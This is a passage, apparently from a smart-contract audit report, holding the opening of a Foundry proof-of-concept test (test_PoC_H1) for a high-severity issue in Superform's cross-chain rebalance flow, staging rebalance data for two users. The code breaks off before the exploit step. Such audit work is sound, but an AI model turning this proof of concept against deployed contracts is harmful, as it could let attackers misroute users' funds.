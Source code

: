 Here is a PoC that demonstrates this scenario:

```solidity
function test_PoC_H1() public {
    vm.selectFork(FORKS[SOURCE_CHAIN]);
    address alice = makeAddr("alice");
    address bob = makeAddr("bob");

    // alice start a cross chain rebalance
    vm.startPrank(alice);

    SingleVaultSFData memory sfData = SingleVaultSFData({
        superformId: superformId1,
        amount: 1e18,
        outputAmount: 1e18,
        maxSlippage: 100,
        liqRequest: LiqRequest({
            txData: "",
            token: getContract(SOURCE_CHAIN, "DAI"),
            interimToken: address(0),
            bridgeId: 0,
            liqDstChainId: SOURCE_CHAIN,
            nativeAmount: 0
        }),
        permit2data: "",
        hasDstSwap: false,
        retain4626: false,
        receiverAddress: address(alice),
        receiverAddressSP: address(alice),
        extraFormData: ""
    });

    IBaseSuperformRouterPlus.XChainRebalanceData memory data = IBaseSuperformRouterPlus.XChainRebalanceData({
        rebalanceSelector: IBaseRouter.singleDirectSingleVaultDeposit.selector,
        interimAsset: getContract(SOURCE_CHAIN, "DAI"),
        slippage: 100,
        expectedAmountInterimAsset: 1e18,
        rebalanceToAmbIds: new uint8[][](0),
        rebalanceToDstChainIds: new uint64[](0),
        rebalanceToSfData: abi.encode(sfData)
    });
    vm.stopPrank();

    // simulate call to startCrossChainRebalance
    vm.startPrank(ROUTER_PLUS_SOURCE);
    SuperformRouterPlusAsync(ROUTER_PLUS_ASYNC_SOURCE).setXChainRebalanceCallData(alice, 1, data);
    vm.stopPrank();

    // bob start a cross chain rebalance
    vm.startPrank(bob);
    sfData = SingleVaultSFData({
        superformId: superformId1,
        amount: 1e18,
        outputAmount: 1e18,
        maxSlippage: 100,
        liqRequest: LiqRequest({
            txData: "",
            token: getContract(SOURCE_CHAIN, "DAI"),
            interimToken: address(0),
            bridgeId: 0,
            liqDstChainId: SOURCE_CHAIN,
            nativeAmount: 0
        }),
```